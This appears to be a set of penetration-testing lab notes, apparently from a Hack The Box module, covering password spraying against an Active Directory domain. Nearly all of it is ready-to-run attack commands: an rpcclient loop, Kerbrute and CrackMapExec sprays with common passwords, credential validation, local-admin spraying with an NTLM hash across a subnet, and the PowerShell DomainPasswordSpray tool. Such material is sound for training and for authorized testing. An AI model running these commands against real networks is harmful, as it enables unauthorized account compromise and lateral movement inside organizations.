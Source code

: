 #### Using a Bash one-liner for the Attack

```shell-session
for u in $(cat /opt/jsmith.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
#### Using Kerbrute for the Attack
```shell-session
Tachipy@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 ./user.list Welcome1
```
#### Using CrackMapExec & Filtering Logon Failures
```shell-session
Tachipy@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u /opt/jsmith.txt -p Password123 | grep +
```
#### Validating the Credentials with CrackMapExec
```shell-session
Tachipy@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```
#### Local Admin Spraying with CrackMapExec
```shell-session
Tachipy@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

### Password Spraying from Windows Host
```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
